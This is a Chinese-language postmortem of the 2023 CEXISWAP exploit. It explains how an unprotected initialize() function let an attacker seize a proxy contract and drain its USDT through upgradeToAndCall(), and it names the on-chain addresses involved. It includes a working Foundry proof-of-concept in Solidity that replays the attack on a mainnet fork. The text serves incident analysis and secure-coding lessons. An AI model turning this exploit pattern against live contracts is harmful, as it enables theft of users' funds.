



# CEXISWAP@Incorrect-Access

- 时间：2023-09-21 06:56:11 (UTC)
- 损失金额：$30,000 (30,000 USDT)
- twitter：https://twitter.com/DecurityHQ/status/1704759560614126030


## 交易 

- 黑客EOA：[0x060C169C4517D52c4BE9a1Dd53e41a3328d16F04](https://etherscan.io/address/0x060c169c4517d52c4be9a1dd53e41a3328d16f04)
- 黑客用来攻击的合约地址：[0x8C425Ee62D18b65Cc975767C27c42dE548D133A1](https://etherscan.io/address/0x8c425ee62d18b65cc975767c27c42de548d133a1)
- 被攻击的合约地址：[0xb8a5890d53df78dee6182a6c0968696e827e3305](https://etherscan.io/address/0xb8a5890d53df78dee6182a6c0968696e827e3305)
- 攻击事件hash：[0xede72a74d8398875b42d92c550539d72c830d3c3271a7641ee1843dc105de59e](https://etherscan.io/tx/0xede72a74d8398875b42d92c550539d72c830d3c3271a7641ee1843dc105de59e)

## 资金流向



## 攻击过程



## 攻击详细分析

攻击步骤就两个：调用`initialize()`和`upgradeToAndCall()`，很明显，`initialize()`是用来获取权限，然后`upgradeToAndCall()`是用权限来获利。

按道理，初始化函数应该只能调用一次，但是黑客看到了项目方调用了两次，如下图。那么猜测这个初始化函数是有问题的，不符合最佳实践。



那么这样就可以想一下，是否可以多次调用初始化函数呢？是否任何人都可以调用呢？事实上，任何人都可以调用，这个关键函数没做保护，只是没将合约开源而已。

拿到了权限，就可以调用`upgradeToAndCall()`进行获利。

## 复现

[github](https://github.com/chen4903/BlockChainPoC/tree/master/test)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract CexiTest is Test {
    ICEXISWAP private constant CEXISWAP =
        ICEXISWAP(0xB8a5890D53dF78dEE6182A6C0968696e827E3305);
    IUSDT private constant USDT =
        IUSDT(0xdAC17F958D2ee523a2206206994597C13D831ec7);
    Exploiter private exploiter;

    function setUp() public {
        vm.createSelectFork("mainnet", 18182605);
        vm.label(address(CEXISWAP), "CEXISWAP");
        vm.label(address(USDT), "USDT");
    }

    function testExploit() public {
        exploiter = new Exploiter();
        exploiter.exploit();
        emit log_named_decimal_uint(
            "Attacker USDT balance after exploit",
            USDT.balanceOf(address(this)),
            6
        );
    }
}

contract Exploiter {
    ICEXISWAP private constant CEXISWAP =
        ICEXISWAP(0xB8a5890D53dF78dEE6182A6C0968696e827E3305);
    IUSDT private constant USDT =
        IUSDT(0xdAC17F958D2ee523a2206206994597C13D831ec7);
    bytes32 private constant IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    address private immutable owner;

    constructor() {
        owner = msg.sender;
    }

    function exploit() external {
        CEXISWAP.initialize(
            "HAX",
            "HAX",
            address(this),
            address(this),
            address(this),
            address(this)
        );
        CEXISWAP.upgradeToAndCall(
            address(this),
            abi.encodePacked(this.exploit2.selector)
        );
    }

    // function 0x1de24bbf
    function exploit2() external {
        // delegatecall
        USDT.transfer(owner, USDT.balanceOf(address(this)));
    }

    function upgradeTo(address newImplementation) external {
        bytes32 slot = IMPLEMENTATION_SLOT;
        assembly {
            sstore(slot, newImplementation)
        }
    }
}
```

## 建议

- 未开源 != 安全
- 关键函数一定要做权限校验 


